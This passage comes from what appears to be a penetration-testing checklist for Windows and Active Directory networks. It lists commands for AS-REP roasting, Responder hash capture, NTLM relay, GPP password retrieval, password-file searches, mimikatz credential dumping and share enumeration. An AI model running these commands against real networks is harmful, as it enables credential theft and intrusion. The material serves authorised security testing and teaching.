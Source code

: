 - [ ] Check for accounts with Kerberos pre-authentication disabled (AS-REP Roasting)
  ```
  GetNPUsers.py domain.local/ -usersfile users.txt -dc-ip 192.168.1.100 -format hashcat
  ```

### Network Protocol Attacks
- [ ] Set up Responder to capture hashes
  ```
  responder -I eth0 -wbF
  ```
  - Intercepts LLMNR/NBT-NS/mDNS broadcast name resolution attempts
  - Captures NetNTLM hashes that can be cracked or relayed

- [ ] Set up NTLM Relay attack (if SMB signing is disabled)
  ```
  ntlmrelayx.py -tf relayable.txt -smb2support
  ```
  - Relays captured credentials to other systems for authentication

- [ ] Check for Group Policy Preference passwords in SYSVOL
  ```
  crackmapexec smb 192.168.1.100 -u user -p password -M gpp_password
  ```

## 📌 4. Post-Compromise Enumeration

### Local System Enumeration
- [ ] Check for sensitive files and credentials
  ```
  findstr /si password *.xml *.ini *.txt *.config   # Windows
  grep -r "password" --include="*.xml" --include="*.ini" .   # Linux
  ```

- [ ] Check for logged-in users and sessions
  ```
  query user                   # Shows logged-in users on Windows
  qwinsta                      # Shows RDP sessions
  ```
  - Look for admin accounts currently logged in

- [ ] Dump cached credentials (requires admin privileges)
  ```
  mimikatz.exe
  sekurlsa::logonpasswords
  ```
  - Extracts passwords, NTLM hashes, and Kerberos tickets

### Network Resource Enumeration
- [ ] Enumerate accessible shares
  ```
  crackmapexec smb 192.168.1.0/24 -u user -p password --shares
  net view /all /domain
  ```
  - Look for shares with READ/WRITE access for Everyone or Authenticated Users
